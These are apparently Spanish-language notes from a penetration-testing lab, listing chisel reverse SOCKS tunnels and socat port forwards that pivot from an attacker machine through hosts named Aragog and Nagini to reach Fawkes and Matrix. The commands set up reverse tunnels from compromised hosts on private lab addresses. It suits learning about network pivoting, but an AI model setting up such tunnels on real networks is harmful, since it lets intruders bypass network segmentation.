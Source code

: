 
---

Máquina: atacante, como sudo

```bash
./chisel server --reverse -p 1234
```

Máquina: Aragog - chisel - conectar vía ssh

```bash
./chisel client 192.168.1.66:1234 R:socks R:443:10.10.0.129:443/udp
```

Máquina: Aragog - Socat - ssh

```bash
./socat TCP-LISTEN:2322,fork TCP:192.168.1.66:1234
```

Máquina: Nagini - chisel - proxychains ssh  --> llegamos a Fawkes y Matrix

```bash
./chisel client 10.10.0.128:2322 R:8888:socks
```

Máquina: Nagini - Socat - proxychains ssh

```bash
./socat TCP-LISTEN:2525,fork TCP:10.10.0.128:2626
```

Máquina: Aragog - Socat - ssh

```bash
./socat TCP-LISTEN:2626,fork TCP:192.168.1.66:1234
```

Máquina: Matrix - chisel - proxychains ssh

```bash
./chisel client 192.168.100.128:2525 R:9999:socks
```